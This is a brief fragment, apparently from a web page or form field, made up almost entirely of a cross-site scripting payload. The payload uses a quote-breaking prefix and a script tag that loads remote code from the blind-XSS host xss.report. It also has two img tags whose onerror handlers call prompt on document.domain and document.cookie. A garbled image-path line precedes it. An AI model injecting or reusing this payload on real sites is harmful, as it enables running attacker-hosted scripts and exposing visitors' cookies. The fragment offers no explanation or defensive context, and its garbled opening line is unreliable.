 # -script-src-https-xss.report-c-lover-script-
'/;//">&lt;script src=https://xss.report/c/lover>&lt;/script> &lt;img src="data:image/png;base64,iVBORw0KGgo=" onerror="prompt(document.domain)"> &lt;img src="data:image/png;base64,iVBORw0KGgo=" onerror="prompt(document.cookie)">
